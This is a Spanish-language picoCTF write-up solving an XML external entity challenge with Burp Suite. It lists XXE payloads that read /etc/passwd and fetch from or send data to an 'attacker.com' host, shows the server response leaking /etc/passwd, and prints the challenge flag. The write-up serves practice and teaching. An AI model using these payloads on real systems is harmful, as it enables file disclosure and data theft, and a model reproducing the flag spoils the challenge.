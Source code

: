 ```yaml
--- 
### Descripción:
**The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
[Web Portal](http://saturn.picoctf.net:56305/).**

### Pistas: 
```
1.- XML external entity Injection
```

### Solución:
- **Para la colucion de este reto se utilizaron 2 cosas:**
- 1.- BURP SUITE.
- 2.- FOXYPROXY.
**Primeramente se hizo una conexión al foxyproxy con el burp, para que se mandara correctamente lo que necesitamos, para ello lo añadimos manualmente de la siguiente manera:**
![[Pasted image 20250404182515.png]]

---
```


- **Después de haber hecho dicha conexión, ahora si entramos a la pagina que se nos proporciono en el reto, le damos al froxyproxy y clickeamos el proxy que acabamos de añadir, entramos a BurpSuite, y  nos dirigimos a la pestaña proxy**
- **En la pagina aparecen 3 recuadros sobre universidades, cada uno con un botón para mas detalles, clickeamos cualquiera de ellos, y se mandara al burp.**
![[Pasted image 20250404183051.png]]
- **Le daremos click izquierdo y lo mandaremos al repetidor (send repeater). Ya en el repetidor, daremos al botón de send, pero no servirá de nada aún, para eso investigaremos sobre los payloads de XXE.**

---

```
Aquí te dejo algunos ejemplos de payloads de XXE (XML External Entity), una vulnerabilidad que permite a los atacantes incluir entidades externas en un archivo XML. Estos payloads son ejemplos comunes y pueden variar según la configuración y las protecciones implementadas en el servidor o la aplicación.
```
**Payloads básicos de XXE.**
1.- Lectura de archivos locales:
```bash
<!DOCTYPE root [
  <!ELEMENT root ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>&xxe;</root>
```

2.- Acceso a archivos a través de HTTP:
```bash
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious_file.xml" >
]>
<root>&xxe;</root>
```

3.- Exfiltración de información a través de un servidor remoto:
```bash
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=%25{data}" >
]>
<root>&xxe;</root>

```

---

- **Después de una ardua investigación (chatgpt), probamos cual nos funcionaria, en este caso funciono la primera opción; para esto copiamos el "codigo", lo pegremos en la parte de Burp**
```bash
<?xml version="1.0" encoding="UTF-8"?>
   <data> 
     <ID>
     1
     </ID>
   </data>

```
- **De la siguiente manera:**
![[Pasted image 20250404184137.png]]
- **Al darle clic al botón de "send", nos debería de aparecer lo siguiente:**
```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Sat, 05 Apr 2025 00:20:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}

```
- **Obteniendo al final nuestra bandera.**
### Bandera:
```
picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
```
